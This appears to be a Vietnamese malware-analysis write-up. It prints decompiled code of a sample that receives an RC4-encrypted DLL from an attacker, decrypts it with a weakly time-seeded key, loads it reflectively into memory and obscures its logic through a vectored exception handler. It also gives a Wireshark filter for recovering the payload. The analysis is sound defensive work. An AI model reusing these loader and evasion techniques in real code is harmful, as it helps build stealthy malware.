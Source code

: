 có key rồi decrypt luôn payload tiếp theo đã đc gửi từ attacker tới target đầu tiên là len data tiếp theo là data và sau đó bị encrypted bởi rc4_encrypt sau đó có vẻ như nó load file này vào memory và chạy file
## Load file Drop (chức năng tinh chỉnh key)
```
    recv2 = resolve_APIhashing_ws2_32();
    if ( !((int (__stdcall *)(_DWORD, void *, int, _DWORD))recv2[122])(recv2[100], v18, v19, 0) )// data file dll đã bị encrypted
    {
      recv2[100] = 0;
      *((_BYTE *)recv2 + 496) = 0;
    }
    lenkey = strlen((const char *)create_key_random((int)&savedregs));
    v21 = fileDLLdrop;
    dataencRecv = *(_BYTE **)(fileDLLdrop + 8);
    keyDecryptData = create_key_random((int)&savedregs);
    rc4_encrypt(*(_DWORD *)(v21 + 8), *(_DWORD *)(v21 + 4), keyDecryptData, lenkey, dataencRecv);// *(dword_4203B4+4) = key && *(dword_4203B4+8) = data
    v23 = (int *)fileDLLdrop;
    handle = LoadDLL(*(_DWORD *)(v21 + 8), *(_DWORD *)(v21 + 4));
    *v23 = handle;
```

chức năng của hàm LoadDLL là load một file dll,exe vào memory như một dạng PELoader.
và return về một dạng handler 
kỹ thuật này được gọi là Virtual Machine-based PE Loader
trả về một con trỏ (pointer) đến Entry Point hoặc Base Address của PE đã được map vào bộ nhớ.
và attacker sẽ import manual các functionName của file PE này vào sử dụng

sau khi PEloader thành công attacker đã tạo một file BMP
và sau đó gửi size của file
![image](https://hackmd.io/_uploads/By4ocMrCkg.png)




do thời gian gửi payload chênh lệch rất ít nên hàm tạo khóa sẽ cho ra các khóa giống nhau
```
filter wirshark : ip.addr==192.168.89.136 and tcp.dstport==51392 and tcp.srcport==31337
với gửi len data ở gói packetid == 10
và data ở gói packetid == 11 trở đi để thuận tiện ta sẽ lấy payload ở TCP stream
```
![image](https://hackmd.io/_uploads/BJoXPGH01e.png)
download file về

## AddVectoredExceptionHandler
![image](https://hackmd.io/_uploads/H14ejMSRkl.png)

```
dword_42039C nó là một APIwindows AddVectoredExceptionHandler
một dạng bắn ExceptionCode để xử lý logic code thật
```
![image](https://hackmd.io/_uploads/rJBwXEH0yl.png)
sau khi fix
```
LONG __stdcall Handler(struct _EXCEPTION_POINTERS *ExceptionInfo)
{
  DWORD ExceptionCode; // eax
  _DWORD *v2; // eax
  _DWORD *recv; // esi
  void *v5; // edx
  PCONTEXT ContextRecord; // eax
  DWORD Eip; // ecx
  DWORD v8; // ecx
```